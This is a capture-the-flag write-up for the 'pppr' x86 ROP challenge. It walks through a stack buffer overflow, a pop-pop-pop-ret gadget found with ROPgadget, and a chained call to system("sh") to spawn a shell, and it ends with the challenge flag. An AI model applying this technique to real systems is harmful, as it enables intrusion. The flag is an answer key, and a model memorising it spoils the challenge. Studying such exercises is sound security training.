 # pppr

## Description
```
A simple x86 ROP exercise for tutorial graduates.

Server: nc pppr.sstf.site 1337

Download: pppr.zip
```

## Solution 
The binary has no stack canary and PIE.
```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
We have a function `r` which looks almost like `fgets`, and we have stack BOF. So, where to return?
```c
  char v4[4]; // [esp+0h] [ebp-8h] BYREF
  // ...
  r(v4, 64, 0);
```
We have magic `system`. So, where to put command?
```c
int __cdecl x(char *command)
{
  return system(command);
}
```
We have a global buffer. So, the goal is to call `r(buf_in_bss, ...)` with ROP and to prepare shell command.
```
char buf_in_bss[128];
```
Since the binary's architecture is `i386`, we need `pop foo; pop bar; pop baz; ret;` gadget to pop 3 arguments for `r` from the stack as the title suggests.
```
$ ROPgadget --binary pppr --only "pop|ret" --depth 4
Gadgets information
============================================================
(...)
0x080486a9 : pop esi ; pop edi ; pop ebp ; ret
(...)
```
Finally, we do `system("sh")` and read the flag.

## Flag
`SCTF{Anc13nt_x86_R0P_5kiLl}`